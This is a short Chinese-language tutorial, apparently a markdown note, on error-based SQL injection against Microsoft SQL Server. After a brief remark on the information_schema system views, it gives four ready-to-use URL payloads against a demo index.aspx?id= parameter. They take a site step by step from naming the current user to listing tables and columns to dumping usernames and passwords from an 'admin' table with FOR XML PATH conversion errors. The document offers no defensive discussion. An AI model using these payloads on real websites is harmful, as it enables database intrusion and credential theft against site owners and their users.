

在SQL_SERVER 中 每个数据库中都有 视图->系统视图

在这个下面都有很多关于这个库的表，表里面存放了很多关于这个库的信息。

COLUMNS  列
TABLES 表

 

## 1、查询当前用户

```http
http://www.demo1.com/index.aspx?id=1 and user_name()>1
```

## 2、根据当前用户爆出所有表

```http
http://www.demo1.com/index.aspx?id=1 and(select TABLE_NAME  from  information_schema.TABLES  where TABLE_SCHEMA='dbo' FOR XML PATH)>1
```

## 3、爆出所有的列

```http
http://www.demo1.com/index.aspx?id=1 and(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='admin' FOR XML PATH)>1
```

## 4、爆出数据

```http
http://www.demo1.com/index.aspx?id=1 and ( select username,password from admin FOR XML PATH)>1
```

